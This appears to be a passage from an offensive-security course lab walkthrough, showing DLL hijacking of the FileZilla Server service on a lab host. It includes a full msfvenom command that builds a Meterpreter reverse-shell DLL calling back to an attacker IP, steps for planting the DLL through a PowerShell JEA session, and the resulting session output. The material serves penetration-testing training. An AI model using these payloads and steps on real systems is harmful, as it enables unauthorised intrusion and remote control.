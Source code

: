With the filters set, we'll start the FileZilla-Server service. Once started, we'll find the _filezilla-server.exe_ as shown in the below Figure:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/pen300-ade/53c6670e901e1dc1bbcdb02cf6d4b7ed-procmon-result.png" alt="Figure 4: Process Monitor filezilla-server.exe"><figcaption><p>Figure 4: Process Monitor filezilla-server.exe</p></figcaption></figure>

The result indicates that the FileZilla service attempts to load DLLs from the directory where it is loaded, which is expected. This is by no means a vulnerability, but given that we have administrative access, we should be able to take advantage of it on _FILES02_ since we have write privileges to the **C:\Program Files\FileZilla Server\\** folder.

Which DLL to replace depends on several factors. As the DLLs are typically loaded as a part of the process of starting a service, the operating system loads the required DLLs into the process's address space before the main function begins executing. This allows the process to call functions in those DLLs as soon as it starts running.

If a DLL fails to load correctly, it can cause the service to fail. In other words, the service may crash before it gets to the point where it would execute the code in our custom DLL.

We can also use a technique referred to as DLL proxying. This leverages the DLL search order in the same way, but the malicious DLL will forward calls to the legitimate DLL to avoid disrupting the service's normal operation.

Finding which DLL to create may require some trial and error. In our case, it appears we can replace three of the six possible DLLs to obtain a shell on _CLIENT01_ while two of them allow the service to start. In this case, we'll create a payload following the naming of **msasn1.dll**.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.48.4 LPORT=443 -a x64 --platform windows -f dll > msasn1.dll
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

> Listing 37 - Generating payload with msfvenom

After testing this on _CLIENT01_ and successfully getting a shell, we'll move back to _CLIENT02_, where we are logged in with the _mary_ user. We'll use the JEA configuration to copy the file to the **C:\Program Files\FileZilla Server\\** directory on _FILES02_.

```
PS C:\> Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
```

> Listing 38 - Copying msasn1.dll from mary home folder to _FILES02_ destination folder

With the DLL in place, we need to wait for someone to restart the target machine. We'll simulate the restart by logging in to _FILES02_ as the _adam_ user.

Once the system has rebooted and the service starts, we get a shell.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.48.4:443 
[*] Sending stage (200774 bytes) to 192.168.50.105
[*] Meterpreter session 1 opened (192.168.48.4:443 -> 192.168.50.105:49707) at 2023-05-24 12:25:52 -0400

meterpreter > sysinfo
Computer        : FILES02
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getuid
```

[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'